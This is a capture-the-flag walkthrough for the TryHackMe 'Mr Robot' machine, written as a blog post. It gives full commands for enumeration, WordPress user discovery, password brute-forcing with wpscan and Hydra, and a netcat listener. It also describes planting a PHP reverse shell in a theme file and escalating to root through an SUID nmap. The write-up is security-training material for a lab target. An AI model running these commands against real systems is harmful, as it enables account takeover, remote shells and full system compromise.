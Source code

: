 ```yaml
---
title: "Mr Robot machine on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/mr_robot.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags."
description: "Walkthrough on Mr Robot CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - mrrobot
  - THM
  - CTF
  - privesc
  - writeup
  - TryHackMe
  - Easy
toc: false
---
```

# Mr Robot CTF

<img src="/assets/images/posts/writeups/mr_robot.jpg" alt="Mr Robot" width="500" class="align-center">

TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags.

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV [machineIp]
```

Results:
```sh
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://[machineIp]/FUZZ 
```

Results:
```sh
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 57ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 61ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 61ms]
                        [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 90ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 783ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 51ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 52ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 51ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 51ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 831ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 830ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 834ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 51ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 866ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 70ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 59ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 54ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 788ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 59ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 53ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 60ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 52ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 791ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 57ms]
wp-admin                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 53ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 57ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 53ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 852ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 829ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 873ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 777ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 951ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 898ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 837ms]
:: Progress: [4614/4614] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:38] :: Errors: 0 ::
```

## Exploitation

### Foothold
1. Check content of robots.txt file found in file enumeration
2. In the robots there is a file called http://[machineIp]/key-1-of-3.txt containing **Key1** (FIRST KEY IN THE CTF)
3. Also, in location http://[machineIp]/fsocity.dic is a dictionary, download it locally for later
4. Check the installed wordpress instance using wpscan:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -e vp,vt,cb,u,dbe,m
```
5. Scanning the wordpress we found two users: **elliot**, **mich05654**
6. Brute force with wpscan for user **mich05654**:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -U mich05654 -P /home/kali/Downloads/fsocity.dic 
```
7. Found password for mich05654!
8. Login with found user and password on the http://[machineIp]/wp-login.php
9. This user has limited access in wordpress
10. Since brute forcing with wpscan is realy slow we can use BurpSuite or Hydra to bruteforce for user *elliot*
11. Check for dictionary downloaded; a lot of lines are repeating - clean the dictionary first
12. Checking the dictionary again I saw that a couple of more than 11k passwords are repeating except last few lines:
```txt
ER28-0652
psychedelic
iamalearn
uHack
imhack
abcdefghijklmno
abcdEfghijklmnop
abcdefghijklmnopq
c3fcd3d76192e4007dfb496cca67e13b
ABCDEFGHIJKLMNOPQRSTUVWXYZ
```
13. Bruteforcing with this small list I found elliot's password!
```sh
hydra -l elliot -P /home/kali/Downloads/short.txt [machineIp] http-post-form "/wp-login.php:log=elliot&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.146.151%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
14. Start a local listener with netcat `nc -lvnp 4455`
15. Login with elliot on wordpress and edit theme (Apearance >> Editor) replace the content of file (header.php) with a php rev shell (PentestMonkey.php from here https://www.revshells.com/)
16. Re-visit blog to load the content of header.php, the reverse shell should run

#### Data exfiltration
1. We are logged as user "daemon" on Linux machine and the second flag is own by user "robot", for this a lateral movement will be needed
2. Check for SUID `find / -perm /4000 2> /dev/null`
3. Found nmap instance with SUID set `-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap`

### Privilege escalation
1. Check https://gtfobins.github.io/gtfobins/nmap/ for how you can spawn a shell using nmap:
```sh
nmap --interactive
nmap> !sh
```
2. Voila! You are root :)

#### Data exfiltration
1. Read content of /home/robot/key-2-of-3.txt for **Key2** (SECOND KEY IN THE CTF)
2. Read content of /root/key-3-of-3.txt for **Key3** (THIRD KEY IN THE CTF)